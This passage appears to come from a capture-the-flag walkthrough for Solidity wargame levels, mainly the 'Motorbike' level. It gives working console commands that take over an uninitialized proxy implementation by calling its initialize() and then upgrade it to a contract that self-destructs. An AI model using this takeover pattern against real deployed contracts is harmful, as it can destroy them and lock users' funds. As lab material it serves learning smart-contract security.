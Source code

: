 ```
await contract.execute(player, toWei('0.002'), 0x0)
await contract.setMaxBalance(player)
```


### Motorbike
console
```
implAddr = await web3.eth.getStorageAt(contract.address, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc')
implAddr = '0x' + implAddr.slice(-40);
initializeData = web3.eth.abi.encodeFunctionSignature("initialize()")
await web3.eth.sendTransaction({ from: player, to: implAddr, data: initializeData })
upgraderData = await web3.eth.abi.encodeFunctionSignature("upgrader()")
await web3.eth.call({from: player, to: implAddr, data: upgraderData}).then(v => '0x' + v.slice(-40).toLowerCase()) === player.toLowerCase()
```

`BombEngine.sol`
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract BombEngine {
    function explode() public {
        selfdestruct(address(0));
    }
}
```
Deploy 
Copy deployed contract address (like in Preservation level)

console
```
bombAddr = '<deployed_contract_address>'
explodeData = web3.eth.abi.encodeFunctionSignature("explode()")
upgradeSignature = {
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: 'newImplementation'
        },
        {
            type: 'bytes',
            name: 'data'
        }
    ]
}
upgradeParams = [bombAddr, explodeData]
upgradeData = web3.eth.abi.encodeFunctionCall(upgradeSignature, upgradeParams);
```
```
await web3.eth.sendTransaction({from: player, to: implAddr, data: upgradeData})
```
